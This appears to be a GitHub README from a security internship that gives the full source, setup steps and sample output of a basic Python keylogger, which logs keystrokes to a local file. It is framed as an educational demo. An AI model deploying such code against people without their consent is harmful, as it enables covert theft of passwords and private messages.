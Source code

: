 # Task 8: Keylogger Creation for Educational Use
## Internship at : Broskieshub.com

## Objective

I’m building a simple keylogger in Python using the `pynput` library to demonstrate how attackers might capture keystrokes for educational purposes only. This helps me understand input monitoring techniques and highlights the importance of security practices.

## Dependencies

- Python 3.13.7
- I install `pynput` in a virtual environment to avoid Kali Linux’s externally managed environment error.

### Setup Virtual Environment

1. I install `python3-venv`:
    
    ```
    sudo apt install python3-venv
    ```
    
2. I create and activate a virtual environment:
    
    ```
    python3 -m venv keylogger_env
    source keylogger_env/bin/activate
    ```
    
3. I install `pynput` inside the virtual environment:
    
    ```
    pip install pynput
    ```
    

**Screenshot Points (SS):**

- After I create and activate the virtual environment (showing terminal output).

![](Screenshots/01_ven.png)

- After I install `pynput` (showing pip output).

![](/Screenshots/02_pynput.png)

## Source Code

I save the following as `keylogger.py`:

```python
from pynput.keyboard import Key, Listener
import logging

# Set up logging to file
logging.basicConfig(filename='keylog.txt', level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

def on_release(key):
    if key == Key.esc:  # Stop listener on ESC key
        return False

# Start listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage Demo

1. I ensure the virtual environment is activated:
    
    ```
    source ~/Desktop/Task8/keylogger_env/bin/activate
    ```
    
2. I run the script:
    
    ```
    python keylogger.py
    ```
    
3. I type sample input (e.g., “Hello, this is a test!” or special keys like Enter).
4. I press ESC to stop.
5. I view the logs in `keylog.txt`.

**Screenshot Points (SS):**

- Terminal showing execution and typing in progress.

![](Screenshots/03_script_run.png)

## Captured Logs 
`These also can be found at [Logs](Evidencescec/keylog.txt)`

```
2025-09-28 15:53:20,828: Key.shift_r  
2025-09-28 15:53:21,350: 'H'  
2025-09-28 15:53:21,623: 'e'  
2025-09-28 15:53:21,901: 'l'  
2025-09-28 15:53:22,154: 'l'  
2025-09-28 15:53:22,386: 'o'  
2025-09-28 15:53:22,710: Key.space  
2025-09-28 15:53:24,271: Key.shift_r  
2025-09-28 15:53:24,581: 'C'  
2025-09-28 15:53:24,939: 'a'  
2025-09-28 15:53:25,157: 'n'  
2025-09-28 15:53:25,460: Key.space  
2025-09-28 15:53:26,143: 'y'  
2025-09-28 15:53:26,421: 'o'  
2025-09-28 15:53:26,704: 'u'  
2025-09-28 15:53:27,078: Key.space  
2025-09-28 15:53:27,402: 's'  
2025-09-28 15:53:28,579: 'e'  
2025-09-28 15:53:28,809: 'e'  
2025-09-28 15:53:29,297: Key.space  
2025-09-28 15:53:30,782: 'm'  
2025-09-28 15:53:31,019: 'e'  
2025-09-28 15:53:31,313: Key.shift_r  
2025-09-28 15:53:31,693: '?'  
2025-09-28 15:53:32,290: Key.space  
2025-09-28 15:53:32,437: Key.shift_r  
2025-09-28 15:53:35,218: ':'  
2025-09-28 15:53:35,948: ')'  
2025-09-28 15:53:38,105: Key.esc
```

## Notes

- I use this ethically for the demo and deactivated the virtual environment after use:
    
    ```
    deactivate
    ```
    
- This is for learning—I do not deploy it on unauthorized systems.

---
End of report.
